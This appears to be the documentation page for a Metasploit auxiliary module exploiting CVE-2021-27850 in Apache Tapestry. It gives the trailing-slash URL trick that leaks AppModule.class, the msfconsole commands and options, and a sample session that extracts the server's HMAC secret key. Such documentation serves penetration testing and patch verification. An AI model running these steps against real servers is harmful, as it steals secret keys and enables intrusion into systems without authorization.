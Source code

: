## Description

This module exploits CVE-2021-27850 which affects several versions of Apache Tapestry. The versions concerned are at least 5.4.5, 5.5.0, 5.6.2 and 5.7.0. This CVE allows an attacker to leak the source code of a Tapestry server by requesting a particular `.class` file with its name through the url with an extra `/` at the end: http://tapestryhost:8080/assets/something/services/AppModule.class/. Due to this, it is possible to leak the HMAC secret key which is located in `AppModule.class` by default.

## Installation

A vulnerable version of Apache Tapestry can be downloaded from [here](https://downloads.apache.org/tapestry/apache-tapestry-5.7.0-bin.zip). I highly recommend you to follow the Tapestry tutorial [there](https://tapestry.apache.org/tapestry-tutorial.html). It will guide you through all the steps from setting up to launching a demo skeleton of your server.

## Verification Steps

List the steps needed to make sure this thing works

- 1. Start `msfconsole`
- 2. `use auxiliary/gather/cve_2021_27850_apache_tapestry_hmac_key`
- 3. `set RHOST <target_host>` and `set RPORT <target_port>`
- 4. `check` to check if the targeted Tapestry server is vulnerable or not
- 5. `set targeted_class` if you want to target another class than the default one (AppModule.class) 
- 6. `run` the module to exploit the CVE and leak the secret key !

## Options

**RHOSTS**

Set the target host.

**RPORT**

Set the target port. The default value is `8080` which is the default value used by Tapestry server.

**TARGETED_CLASS**

This is not a required option and by default the value is `AppModule.class` which is also the default java class of by Tapestry server where the hmac key is set. But in case you want to target a different java class, it can be done by setting this option with another class name.

## Scenarios

```
msf6 > use auxiliary/gather/cve_2021_27850_apache_tapestry_hmac_key
msf6 auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > set rhost 172.16.215.155rhost => 172.16.215.155
msf6 auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > set targeturi /hotels
targeturi => /hotels
msf6 auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > check

[+] Java file leak at 172.16.215.155:8080/hotels/assets/app/bf78ed9f/services/AppModule.class/
[+] 172.16.215.155:8080 - The target is vulnerable.
msf6 auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > run
[*] Running module against 172.16.215.155

[+] Apache Tapestry class file saved at /user/.msf4/loot/20210721173200_default_172.16.215.155_tapestry.AppModu_493080.bin.
[+] HMAC key found: 3e986070-b0d6-4634-93fe-4febebc90529.
[*] Auxiliary module execution completed
```
